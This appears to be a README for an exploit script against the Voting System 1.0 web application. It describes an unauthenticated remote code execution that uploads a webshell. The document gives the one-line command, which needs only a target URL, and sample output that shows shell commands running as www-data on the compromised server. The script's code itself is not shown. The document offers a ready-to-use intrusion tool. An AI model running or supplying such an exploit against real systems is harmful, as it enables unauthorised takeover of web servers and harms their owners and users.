 # Voting System 1.0 - Remote Code Execution (Unauthenticated)
RCE_Voting_System.py is a script to exploit the RCE in Voting System 1.0 web application

Source: https://www.exploit-db.com/exploits/49846

## Usage

This RCE is not authenticated, so you only need the website URL.

Usage: python3 RCE_Voting_System.py [url]
Exemple: python3 RCE_Voting_System.py http://192.168.1.50/votesystem/

Output exemple:  
florian@kali-floflo:/tmp/floflo$ python3 exploit.py http://192.168.1.50/votesystem/  
Voting System 1.0 - Remote Code Execution (Unauthenticated) - https://www.exploit-db.com/exploits/49846  
[+] Trying to upload a webshell...  
Upload OK!  
Web shell open. This is not a reverse shell  
www-data@website$ id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  

